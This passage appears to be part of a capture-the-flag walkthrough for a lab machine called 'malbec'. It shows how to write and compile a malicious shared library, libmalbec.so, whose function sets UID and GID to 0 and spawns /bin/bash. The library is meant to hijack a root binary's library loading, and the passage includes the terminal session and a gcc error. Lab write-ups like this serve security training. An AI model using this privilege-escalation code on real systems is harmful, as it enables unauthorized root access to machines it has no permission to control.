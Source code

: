 ```bash 
_ITM_registerTMCloneTable
malbec
__cxa_finalize@@GLIBC_2.2.5
...
```
The `malbec` string appears a couple of times in the output. Let's give this name a shot. To create our shell source code, we will issue the `cat <<EOT >> rootshell.c` command and then paste the following C code (including the newline character at the end) when presented with the `>` prompt:
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
void malbec() {
setuid(0); setgid(0); system("/bin/bash");
}
```
The process is as follows:
```bash 
carlos@malbec:/home/carlos$ cat <<EOT >> rootshell.c
cat <<EOT >> rootshell.c
> #include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
void malbec() {
setuid(0); setgid(0); system("/bin/bash");
}
#include <stdio.h>
> #include <sys/types.h>
> #include <unistd.h>
> void malbec() {
> setuid(0); setgid(0); system("/bin/bash");
> }
> 
```
Inputting EOT ends our input sequence and writes our code to the file.
```bash 
> EOT
EOT
carlos@malbec:/home/carlos$ 
carlos@malbec:/home/carlos$ cat rootshell.c                                       
cat rootshell.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
void malbec() {
setuid(0); setgid(0); system("/bin/bash");
}
```
Or just `wget from attacker's kali`

Compiling the source code now produces the following error:
```bash 
carlos@malbec:/home/carlos$ gcc rootshell.c -o libmalbec.so -shared -Wall -fPIC -w
< rootshell.c -o libmalbec.so -shared -Wall -fPIC -w
gcc: error trying to exec 'cc1': execvp: No such file or directory
```
Let's review our environment variables.
```bash 
carlos@malbec:/home/carlos$ export
export
declare -x LS_COLORS=""
declare -x OLDPWD
declare -x PWD="/home/carlos"
declare -x SHLVL="1"
carlos@malbec:/home/carlos$
```